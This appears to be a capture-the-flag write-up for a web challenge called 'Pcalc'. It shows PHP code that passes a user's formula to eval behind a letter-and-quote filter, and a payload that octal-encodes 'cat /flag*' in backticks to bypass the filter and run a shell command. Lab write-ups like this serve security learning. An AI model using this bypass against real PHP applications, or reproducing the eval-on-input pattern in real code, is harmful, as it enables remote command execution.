 ```yaml
---
title: Pcalc
date: 2021-04-25 18:15:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains code execution but with a little twist. We can't use letters and those characters `'"\[]`. So we have to somehow bypass the filter. For more information about this sort of thing I recommend looking at this [article](https://www.programmersought.com/article/7881105401/) and this [one](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp#using-octal). (\* ^ ω ^)

The webpage looks like this:
![](/assets/img/pcalc_web.png#center)

Looking at `index.php` we can see there is only one route:

```php
$router = new Router();
$router->new('GET', '/', 'CalcController@index');
```

The controller `CalcController.php` looks like this:

```php
<?php
class CalcController
{
    public function index($router)
    {
        $formula = isset($_GET['formula']) ? $_GET['formula'] : '100*10-3+340';
        $calc = new CalcModel();
        return $router->view('index', ['res' => $calc->getCalc($formula)]);
    }
}
```

## Vulnerability
After analysing the source code we see the code is vulnerable to code execution due to the "eval" function. We only need do trick the "preg_match_all" function.
Here is the vulnerable code:

```php
<?php
class CalcModel
{
    public static function getCalc($formula)
    {
        if (strlen($formula) >= 100 || preg_match_all('/[a-z\'"]+/i', $formula)) {
            return '🤡 dont bite the hand that feeds you human 🤡';
        }
        try {
            eval('$pcalc = ' . $formula . ';');
            return isset($pcalc) ? $pcalc : '?';
        }
        catch (ParseError $err) {
           return '🚨 report to the nearest galactic federation agency 🚨';
        }  
    }
}
```

## Exploitation
We simply input `` `\143\141\164\40\57\146\154\141\147\52` `` which is octal encoded for `cat /flag*` and we get the flag:

> CHTB{I_d0nt_n33d_puny_hum4n_l3tt3rs_t0_pwn!}

٩(◕‿◕｡)۶